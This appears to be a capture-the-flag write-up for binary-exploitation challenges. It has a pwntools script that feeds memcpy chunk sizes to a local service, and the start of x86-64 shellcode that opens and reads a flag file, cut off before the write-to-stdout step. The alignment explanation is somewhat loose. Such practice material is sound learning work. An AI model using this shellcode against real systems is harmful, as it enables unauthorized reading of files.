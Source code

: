 ## codemap

`TODO`

## memcpy

Read about memory alignment. I've added some reading material on my [Binary Explitation repository on github](https://github.com/codemaxx/Binary-Exploitation).
Basically the ASM operation need 16 byte alignment whereas 32-bit guarantees only 8-bit alignment by default, so we need to send proper chunk sizes for copying.

```python

from pwn import *
import sys

r = remote("localhost", 9022)
r.sendline("8")
r.sendline("16")
r.sendline("32")
r.sendline("72")
r.sendline("136")
r.sendline("268")
r.sendline("600")
r.sendline("1208")
r.sendline("2408")
r.sendline("4808")
print r.recvall()
```

## asm

**print_flag.asm**

```

global _start

section .text

_start:
jmp _push_filename

_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
;xor byte [rdi + 231], 0x41

xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall

; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall

; syscall write to stdout
```